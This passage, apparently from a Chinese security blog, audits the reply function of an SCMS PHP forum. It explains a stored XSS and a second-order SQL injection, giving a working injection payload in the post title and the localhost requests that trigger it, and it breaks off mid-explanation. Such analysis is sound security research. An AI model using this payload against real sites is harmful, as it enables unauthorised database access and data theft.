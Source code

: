 然后把查询到的内容各自赋给一个变量

```php
    $B_title=lang($row["B_title"]);

    $B_content=lang($row["B_content"]);

    $B_time=$row["B_time"];

    $B_sort=$row["B_sort"];

..............................
```

到后面判断`$action=="reply"`，进入回复帖子功能处

```php
if($action=="reply"){

$B_contentx=$_POST["B_content"];

$debug("insert into SL_bbs(B_title,B_content,B_time,B_mid,B_sub,B_sort) values('[回复]".$B_title."','".$B_contentx."','".date('Y-m-d H:i:s')."',".$_SESSION["M_id"].",".$id.",".$B_sort.")");

mysqli_query($conn,"insert into SL_bbs(B_title,B_content,B_time,B_mid,B_sub,B_sort) values('[回复]".$B_title."','".$B_contentx."','".date('Y-m-d H:i:s')."',".$_SESSION["M_id"].",".$id.",".$B_sort.")");

box("回复成功！","item.php?id=".$id,"success");

}
```

可以看到`$B_contentx=$_POST["B_content"]`无过滤，这里会触发储存xss漏洞。然而这个不是重点，继续看执行的insert语句，发现$B_title等变量都拼接了进来，没有sql过滤，而这些变量是从数据库查询出来的（帖子的标题等），然而回过头去看上面的sql注入，不就是发帖功能的地方么。所以这些变量可控，导致二次sql注入。

**漏洞触发流程：**

首先我们去发帖B_title的值是我们的payload，还有其他的值

`B_title=',(select user()),'',1,999,1)%23&B_content=aaaaaaaaaaaa&B_sort=1`

然后我们去获取帖子id，这个没有特别好的办法只能去摸索着找，可以先根据楼层判断一共有多少帖子，然后一点一点的往后找，根据内容判断是否是我们发布的帖子

```http
http://127.0.0.1//scms/bbs/item.php?id=帖子id
```

 

获取到帖子后去触发漏洞

```http
http://127.0.0.1//scms/bbs/item.php?action=reply&id=帖子id

B_content=test
```

 

这里我说一下payload为什么是这样的，这样构造完全是为了达到回显注入，因为后面打印回复内容的时候执行的sql注入是
